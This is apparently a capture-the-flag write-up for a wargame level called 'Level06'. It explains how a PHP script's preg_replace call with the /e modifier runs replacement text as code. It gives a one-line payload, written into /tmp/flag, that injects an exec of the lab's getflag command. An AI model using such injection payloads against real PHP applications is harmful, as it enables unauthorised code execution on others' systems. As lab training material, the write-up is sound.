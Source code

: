 # Level06

We'll exploit `level06` script by using the unsecure call to `preg_replace` with the `/e` modifier. This modifier allows the replacement code to be executed as php code.
>`echo '[x {${exec(getflag)}}]' > /tmp/flag`
